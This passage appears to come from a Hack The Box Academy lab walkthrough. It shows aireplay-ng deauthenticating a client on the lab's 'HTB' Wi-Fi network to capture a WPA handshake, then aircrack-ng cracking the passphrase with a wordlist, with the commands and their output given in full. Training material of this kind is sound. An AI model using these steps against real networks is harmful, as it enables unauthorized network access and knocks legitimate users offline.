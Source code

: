 Students will note the client's MAC address connected to the HTB wireless network and are going to open a new terminal tab and use `airplay-ng` to perform deauthentication to the client with the following `02:00:00:00:02:00` MAC address to capture the handshake:

```shell
sudo aireplay-ng -0 5 -a D8:D6:3D:EB:29:D5 -c 02:00:00:00:02:00 wlan0mon
```
```
wifi@WiFiIntro:~$ sudo aireplay-ng -0 5 -a D8:D6:3D:EB:29:D5 -c 02:00:00:00:02:00 wlan0mon

10:20:26  Waiting for beacon frame (BSSID: D8:D6:3D:EB:29:D5) on channel 1
10:20:26  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 0| 0 ACKs]
10:20:27  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 0| 0 ACKs]
10:20:28  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 0| 0 ACKs]
10:20:29  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 0| 0 ACKs]
10:20:30  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 0| 0 ACKs]
```

Subsequently, students will stop the `airmon-ng` process with the key combination of `Ctrl + C`, and use `aircrack-ng` to crack the passphrase using the `wordlist.txt` dictionary file located in the current working directory against the `AcademyStudent.cap` packet capture:

```shell
ls -l AcademyStudent*
aircrack-ng AcademyStudent-02.cap -w wordlist.txt 
2
```
```
wifi@WiFiIntro:~$ ls -l AcademyStudent*

-rw-r--r-- 1 root root   1175 Oct 17 10:18 AcademyStudent-01.cap
-rw-r--r-- 1 root root    811 Oct 17 10:18 AcademyStudent-01.csv
-rw-r--r-- 1 root root    844 Oct 17 10:18 AcademyStudent-01.kismet.csv
-rw-r--r-- 1 root root   9194 Oct 17 10:18 AcademyStudent-01.kismet.netxml
-rw-r--r-- 1 root root  83875 Oct 17 10:18 AcademyStudent-01.log.csv
-rw-r--r-- 1 root root  61275 Oct 17 10:21 AcademyStudent-02.cap
-rw-r--r-- 1 root root    811 Oct 17 10:21 AcademyStudent-02.csv
-rw-r--r-- 1 root root    848 Oct 17 10:21 AcademyStudent-02.kismet.csv
-rw-r--r-- 1 root root   9204 Oct 17 10:21 AcademyStudent-02.kismet.netxml
-rw-r--r-- 1 root root 505229 Oct 17 10:21 AcademyStudent-02.log.csv

wifi@WiFiIntro:~$ aircrack-ng AcademyStudent-02.cap -w wordlist.txt 
Reading packets, please wait...
Opening AcademyStudent-02.cap
Read 1332 packets.

   #  BSSID              ESSID                     Encryption

   1  D2:A3:32:1B:29:D5                            Unknown
   2  D8:D6:3D:EB:29:D5  HTB                       WPA (1 handshake)

Index number of target network ? 2

Reading packets, please wait...
Opening AcademyStudent-02.cap
Read 1332 packets.

1 potential targets

                               Aircrack-ng 1.6 

      [00:00:00] 163/14344393 keys tested (947.71 k/s) 

      Time left: 4 hours, 12 minutes, 15 seconds                 0.00%

                           KEY FOUND! [ {hidden} ]
```